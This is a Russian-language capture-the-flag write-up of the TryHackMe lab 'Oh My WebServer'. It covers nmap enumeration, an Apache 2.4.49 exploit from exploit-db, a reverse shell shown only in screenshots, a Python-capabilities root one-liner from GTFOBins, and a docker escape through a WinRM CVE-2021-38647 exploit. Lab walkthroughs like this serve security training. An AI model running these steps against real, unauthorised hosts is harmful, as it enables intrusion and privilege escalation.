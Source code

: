 # Oh My WebServer

:white_check_mark:  [**Apache 2.4.49 exploit**](#apache)

:white_check_mark: [**Python(capabilities)**](#capabilities)

:white_check_mark: [**WinRM exploit**](#win_rm)

___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV server.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Consult - Business Consultancy Agency Template | Home
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/1.png)

## Getting shell

<a name="apache"></a>

Сервер поднят на Apache 2.4.49. Найдем [уязвимость](https://www.exploit-db.com/exploits/50383) для него на exploit-db.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/3.png)

Клонируем эксплоит и используем.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/4.png)

Видим, что можем использовать команды. Прокинем обратную оболочку

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/5.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/6.png)

## Privilege escalation

Используем **linpeas**, чтобы найти что-нибудь интересное.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/7.png)

<a name="capabilities"></a>

Видим, что можем проэсплуатировать **capabilities** питона. Используем для этого [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities).
```
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

## Docker escape

Получаем рут. Мы находимся в докере. Ищем способ выйти из него. Снова посмотрим на результат работы **linpeas**. Ничего, кроме внутреннего ip-адресса не найдено. Попробуем установить nmap и просканировать порты.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/8.png)

```
nmap -p- 172.17.0.1
```

```
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:99:85:EF:78 (Unknown)
```

<a name="win_rm"></a>

Порты 5985, 5986 относятся к **WinRM**. Проэксплуатируем уязвимость [эксплоитом](https://github.com/AlteredSecurity/CVE-2021-38647).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/9.png)

Мы вышли из докера.
